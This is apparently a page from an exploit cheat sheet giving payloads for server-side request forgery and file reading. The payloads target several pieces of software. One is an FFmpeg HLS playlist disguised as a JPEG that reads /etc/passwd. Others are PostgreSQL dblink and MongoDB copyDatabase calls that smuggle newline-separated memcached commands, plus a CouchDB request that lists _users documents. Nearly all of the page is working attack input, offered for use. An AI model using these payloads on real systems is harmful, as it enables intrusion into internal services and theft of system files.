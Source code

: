 ### FFmpeg

> cat test.jpg

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://example.org/header.m3u8|file:///etc/passwd
#EXT-X-ENDLIST
```

> [subfile](https://www.ffmpeg.org/ffmpeg-protocols.html#subfile)

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://localhost/header.m3u8|subfile,,start,0,end,64,,:///etc/passwdconcat:http://localhost/header.m3u8|subfile,,start,64,end,128,,:///etc/passwdconcat:http://localhost/header.m3u8|subfile,,start,128,end,256,,:///etc/passwdconcat:http://localhost/header.m3u8|subfile,,start,256,end,512,,:///etc/passwd
#EXT-X-ENDLIST
```

### PostgreSQL

> Exploit

```
> SELECT dblink_send_query('host=127.0.0.1 dbname=quit user=\'\nstats\n\' password=1 port=11211 sslmode=disable','select
version();');
```

### MongoDB

> Exploit

```
> db.copyDatabase("\1\2\3\4\5\6\7",'test','localhost:8000')
> nc -l 8000 | hexdump -C
> db.copyDatabase(“\nstats\nquit”,’test’,’localhost:11211’)
```

### CouchDB

> exploit

```
http://localhost:5984/_users/_all_docs
HTTP/1.1 200 OK
Server: CouchDB/1.2.0 (Erlang OTP/R15B01)
ETag: "BD1WV12007V05JTG4X6YHIHCA"
Date: Tue, 18 Dec 2012 21:39:59 GMT
Content-Type: text/plain; charset=utf-8
Cache-Control: must-revalidate

{"total_rows":1,"offset":0,"rows":[
{"id":"_design/_auth","key":"_design/_auth","value":{"rev":"1-a8cfb993654bcc635f126724d39eb930"}}
]}
```
